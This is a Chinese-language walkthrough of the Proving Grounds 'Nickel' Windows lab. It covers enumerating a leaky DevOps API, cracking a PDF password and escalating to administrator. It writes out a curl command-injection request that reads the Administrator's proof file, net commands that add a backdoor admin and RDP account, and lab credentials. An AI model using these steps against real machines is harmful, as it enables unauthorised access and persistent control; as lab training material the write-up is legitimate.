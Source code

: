 ```yaml
---
title: Proving Grounds Practice-Nickel-Windows
date: 2025-6-25 20:00:00
tags: 红队
categories: 红队打靶-Windows
---
```


# 信息收集

## nmap

![image-20250625150859986](./Nickel-Windows/image-20250625150859986.png)

## 8089端口&&33333端口

8089端口是一个DevOps的面板，点击其中的按钮无法访问

![image-20250625160829859](./Nickel-Windows/image-20250625160829859.png)

查看源码，是跳到一个ip地址的33333端口，这个ip是写死的，应该是要跳转到当前靶机的33333端口，并且是get访问方式

![image-20250625160835809](./Nickel-Windows/image-20250625160835809.png)

直接访问33333端口显示无效的token

![image-20250625161054338](./Nickel-Windows/image-20250625161054338.png)

尝试访问33333端口的这三个目录，以get方式提交时回显不能以get提交，修改请求方法，以post请求

![image-20250625161159119](./Nickel-Windows/image-20250625161159119.png)

以post请求时，`/list-running-procs`有回显，回显了当前进程，其他两个回显了`Not Implemented`

![image-20250625161729587](./Nickel-Windows/image-20250625161729587.png)

其中一个进程中包含了一个账号密码，密码是base64加密，解密之后得到

```
ariah:NowiseSloopTheory139
```

## ftp

该用户可以成功登录到ftp，ftp下有一个pdf文件，下载到本地分析

![image-20250625163820099](./Nickel-Windows/image-20250625163820099.png)

该文件是加密的

![image-20250625170335091](./Nickel-Windows/image-20250625170335091.png)

使用john破解

![image-20250625170350219](./Nickel-Windows/image-20250625170350219.png)

![image-20250625170425029](./Nickel-Windows/image-20250625170425029.png)

得到正确密码`ariah4168`

![image-20250625170458734](./Nickel-Windows/image-20250625170458734.png)

nickel是该靶机的名称，前面通过nmap扫到的80端口无法直接访问，这里应该指的就是靶机的80端口





smb也可以通过该用户连接，但是共享的信息该用户没有权限访问

rpc该用户也可以连接，也没有有用的信息

# ssh-getshell/提权

该用户可以直接ssh连接，通过ssh连接之后就可以拿到local.txt

前面说到该靶机的80端口开放服务但是无法访问，我们尝试在靶机内部访问

![image-20250625171325992](./Nickel-Windows/image-20250625171325992.png)

![image-20250625171333453](./Nickel-Windows/image-20250625171333453.png)

该节点中是有内容的，上面pdf中给出的第一个应该就是要问号后面加get提交的参数，可以成功命令执行，并且我还尝试了backup目录，但是访问失败

![image-20250625171539784](./Nickel-Windows/image-20250625171539784.png)

该节点是以管理员的权限运行命令

可以直接打印proof.txt

```
curl http://localhost/?type%20C%3a%5cUsers%5cAdministrator%5cDesktop%5cpro
of.txt
```

也可以创建一个新用户赋予管理员权限和远程桌面组

```
#To create a user named api with a password of Dork123!
net user api Dork123! /add

#To add to the administrator and RDP groups
net localgroup Administrators api /add
#并且加入远程桌面组
net localgroup 'Remote Desktop Users' api /add

#url编码
net%20user%20api%20Dork123!%20%2Fadd

net%20localgroup%20Administrators%20api%20%2Fadd

net%20localgroup%20%27Remote%20Desktop%20Users%27%20api%20%2Fadd
```

![image-20250625174636166](./Nickel-Windows/image-20250625174636166.png)

然后通过xfreerdp连接远程桌面

```
xfreerdp /u:api /p:Dork123! /v:192.168.133.99
```

![image-20250625174743252](./Nickel-Windows/image-20250625174743252.png)